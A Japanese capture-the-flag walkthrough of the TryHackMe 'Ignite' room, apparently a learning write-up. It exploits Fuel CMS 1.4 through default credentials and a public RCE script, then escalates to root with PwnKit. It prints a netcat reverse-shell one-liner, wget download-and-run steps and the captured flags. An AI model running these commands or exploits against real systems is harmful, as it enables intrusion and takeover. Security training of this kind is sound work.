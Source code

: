 # Ignite CTF

https://tryhackme.com/r/room/ignite

## 偵察

### ポートスキャン

HTTP だけ。

```shell
TARGET=<ip>
$ sudo nmap $TARGET
[sudo] password for kali:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-12 04:17 EST
Nmap scan report for 10.10.121.207
Host is up (0.27s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
```

### DirBuster

下記のパスなどを発見

- /fule/  
  Fuel CMS というシステムのログインページ

- /0/  
  Fuel CMS のドキュメント。バージョン 1.4 と書かれている。
  管理者ログインのデフォルトは、admin/admin と書かれている。

→ admin/admin でログインできた。

Assets, Blocks の画面にアップロード機能がある。 shell.php をアップロードしようとしたが、「The filetype you are attempting to upload is not allowed.」エラー。拡張子に pdf や jpg を付けてもだめ。

### 脆弱性検索

```shell
$ searchsploit fuel | grep CMS
fuel CMS 1.4.1 - Remote Code Execution (1)                                         | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                         | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                         | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                        | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                               | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                   | php/webapps/48778.txt
Fuel CMS 1.5.0 - Cross-Site Request Forgery (CSRF)                                 | php/webapps/50884.txt
```

## RCE

50477 でコマンドを実行できることを確認。  
応答の頭に必ず system が付いているのに注意。

```shell
$ python 50477.py -u http://$TARGET
[+]Connecting...
Enter Command $pwd
system/var/www/html
```

```shell
Enter Command $cat /etc/passwd
systemroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
```

```shell
Enter Command $cat /home/www-data/flag.txt
system6470e394cbf6dab6a91682cc8585059b
```

フラグ 1 ゲット

## 特権昇格

```shell
Enter Command $uname -r
system4.15.0-45-generic

Enter Command $cat /etc/issue
systemUbuntu 16.04.6 LTS \n \l
```
4.15.0-45-generic  
Ubuntu 16.04.6 LTS \n \l

cron, sudo, suid 何もなし。

リバースシェル起動。  
ちなみに、よく使うプログラミング言語のリバースシェルは機能しなかった。

```shell
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <ip> <port> > /tmp/f
```

### linPEAS

https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

```shell
wget http://<ip>/linpeas.sh
chmod +x ./linpeas.sh
./linpeas.sh
```

この2件が目を引く。

```shell
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
```
### CVE-2021-4034
```shell
$ wget http://10.2.22.182/CVE-2021-4034-main.zip
$ unzip ./CVE-2021-4034-main.zip
$ cd CVE-2021-4034-main
$ ls
LICENSE
Makefile
README.md
cve-2021-4034.c
cve-2021-4034.sh
dry-run
pwnkit.c

$ make all
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.

$ ls
GCONV_PATH=.
LICENSE
Makefile
README.md
cve-2021-4034
cve-2021-4034.c
cve-2021-4034.sh
dry-run
gconv-modules
pwnkit.c
pwnkit.so
```

```shell
$ ./cve-2021-4034
whoami
root
```
特権昇格成功！

```shell
ls /root
root.txt
cat /root/root.txt
b9bbcb33e11b80be759c4e844862482d 
```
rootフラグゲット！

## 振り返り
- 既知の脆弱性を既知のツールを使って攻撃する内容
- プログラミング言語を使わないリバースプロキシの起動
- linPEAS 等のサジェスターツールの脅威を理解した
